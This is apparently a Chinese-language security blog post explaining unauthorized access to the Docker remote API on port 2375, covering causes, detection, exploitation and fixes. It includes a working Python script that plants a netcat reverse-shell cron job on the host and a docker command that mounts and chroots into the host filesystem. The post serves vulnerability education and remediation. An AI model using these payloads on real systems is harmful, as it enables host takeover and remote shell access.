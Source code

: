 # Docker API未授权 

## **造成危害**

未进行权限验证且开放daemon-api的docker服务器可被攻击者控制服务器文件内容，严重可导致getshell等。 



## **原理**  

Docker服务器的daemon-api可以被远程进行调度管理docker，且默认没有配置权限控制。攻击者可以通过创建远程docker的方式映射虚拟机目录到宿主机目录从而获取宿主机的管理权限。

导致问题的出现一般有三种原因 



1、Docker没有使用 user namespace 进行隔离，容器内部的root用户就是宿主机的root，一旦挂载目录之后就可以root身份对宿主机进行操作。

2、Docker 服务所在组的权限过大。

3、Docker remote API没有启动ssl验证 。







## 如何寻找

扫描内网当中开启的2375端口的服务器 

然后访问 其中的  /version 目录 ，出现以下问题说明存在 该服务器存在 Docker未授权漏洞 

![20211101000535](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101000535.png)

## 如何进行利用

### 1、写入定时任务，sshkey 等信息   

下面直接使用一个脚本作为演示，脚本内容当中写入定时任务进行反弹shell

注意该演示需要出现问题的2,3两种原因  

```
import docker

client = docker.DockerClient(base_url='http://192.168.233.140:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 192.168.233.128 4545 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

意思是连接docker，创建了一个  alpine:latest，并且将/tmp/etc 的目录挂载到 root的/etc目录。（docker存在未授权访问的原因） 

最后执行了一条命令是写入一条回传命令到 定时任务当中 。（docker服务所在组权限过大）

最后得到的结果如下 

![20211101000602](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101000602.png)



### 2、目录映射的方式直接获得一个宿主机的interactive  shell  

在出现示例1问题的基础上，运维没有对namespace进行配置，导致攻击者可以通过创建容器的shell进行目录映射的方式直接获得一个宿主机的interactive  shell

注意该演示需要出现问题的1、3两种原因  

```
 docker -H tcp://192.168.233.140:2375 run -it -v /:/mnt alpine chroot /mnt sh
```

-H 是连接某个docker的 daemon-api 

-v 是挂载目录 格式为 **系统目录:容器目录** 

chroot的意思是设置根目录 

在这里的意思是 将挂载之后的 /mnt 作为目前的根目录 

sh 意思是获得当前的shell



这样处理之后得到的挂载文件夹才是 宿主机的文件夹，不然返回的文件夹是 本地的文件夹 

这里获取到的interactive shell 就是宿主机的shell



## 如何修复
### 登录角度

#### 1、只允许特定的IP地址进行访问

设置好ACL 不允许其他的IP进行访问  



#### 2、配置TLS认证

详见引用 Docker Remote API TLS 



### 权限角度  

#### 1、设置namespace

使宿主机当中的root账户和容器当中的root账户进行分离。这样不管是防护黑客的攻击还是防止容器用户的误操作都十分有效。



#### 2、对docker用户组的权限进行限制，不允许其 修改 ssh公钥，定时任务等

## 总结 

docker未授权的组件访问来源于创建的时候没有配置好访问所致。  

之前在内网当中曾经发现了很多关于docker未授权的服务器并且完成了闭环，但是现在存在漏洞的docker服务器又生长了出来。说明漏洞的一个常态化扫描是有必要的。 

### 引用

[Docker Remote API TLS ](https://www.jianshu.com/p/a1bdc96b4163)

[User namespace ](https://www.cnblogs.com/sparkdev/p/9614326.html)

[Docker_namespace](https://docs.docker.com/engine/security/userns-remap/)

